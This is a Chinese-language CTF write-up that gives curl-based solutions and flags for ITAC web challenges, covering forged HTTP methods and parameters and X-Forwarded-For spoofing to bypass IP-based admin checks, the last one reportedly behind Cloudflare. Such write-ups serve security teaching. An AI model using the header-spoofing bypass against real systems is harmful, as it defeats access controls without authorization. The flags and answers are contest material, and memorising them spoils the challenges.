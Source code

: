 Solutions
===

# Web1

### Forge HTTP 1
只是要練習 curl 的使用方式和 HTTP 的請求方式而已。
當你使用 `curl https://chal.ctf.itac.club/forge1/index.php` 時，server 會回傳 `錯誤的 HTTP 請求方式 :D`。

HTTP 的請求方式已知有八種，全部都試一遍就好了
```
$ curl -X POST https://chal.ctf.itac.club/forge1/index.php

ITAC{HTTP_REQUEST_CAN_BE_FORGED}
```

**Flag: ITAC{HTTP_REQUEST_CAN_BE_FORGED}**

### Forge HTTP 2
練習更進階的 curl 使用方式。
當你請求過去時 server 會回傳 `secret query not set`，我後來發現很多人是英文問題 :sweat_smile:

跟著 server 的指示一步一步做就會拿到 flag 了
```
$ curl -d "user=admin&pass=P4ssw0rd" "https://chal.ctf.itac.club/forge2/?secret=ITACSECRET"

ITAC{Forging_HTTP_Request_is_boring_:/}
```

**Flag: ITAC{Forging_HTTP_Request_is_boring_:/}**

### Admin Panel
看一下 source code 就可以知道一開始就會從 `HTTP_X_FORWARDED_FOR` 抓資料當作 IP，而在 PHP 裡面會對 header 加上 `HTTP_` 前綴，所以實際上的 header 是 `X_Forwarded_For`，所以只要簡單加個 HTTP header 就可以了。

```
$ curl -d "user=admin&pass=admin" -H "X-Forwarded-For: 127.0.0.1" https://chal.ctf.itac.club/admin/index.php

<!DOCTYPE html>
<html>
...

                    <div class="header">ITAC{Wrong_IP_Detection_may_leads_to_security_issue}</div>
...
</html>
```

**Flag: ITAC{Wrong_IP_Detection_may_leads_to_security_issue}**

### Admin Panel - Advanced
題目中有提示到網站使用了 CloudFlare CDN，配合前一題就可以知道要想辦法繞過 IP 檢測的機制，那 google `cloudflare cdn real client ip` 就可以找到線索ㄌ。為了減低難度，我直接在 Hint 放了連結。
